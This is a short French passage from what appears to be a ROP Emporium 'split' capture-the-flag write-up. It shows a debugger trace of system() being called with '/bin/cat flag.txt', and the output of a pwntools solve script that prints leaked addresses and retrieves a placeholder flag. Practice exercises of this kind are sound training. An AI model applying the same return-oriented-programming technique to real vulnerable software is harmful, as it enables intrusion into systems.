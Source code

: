 On a alors :

```sh
system@plt (
   $rdi = 0x00000000601060 → "/bin/cat flag.txt"
)
```

### Execution directe

```sh
02_split$ python solve.py
[*] '/home/jce/w/ropemporium/x64/02_split/split'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/home/jce/w/ropemporium/x64/02_split/split': pid 5404
useful_str=601060
useful_fun=400742
[*] Switching to interactive mode
Thank you!
ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
```

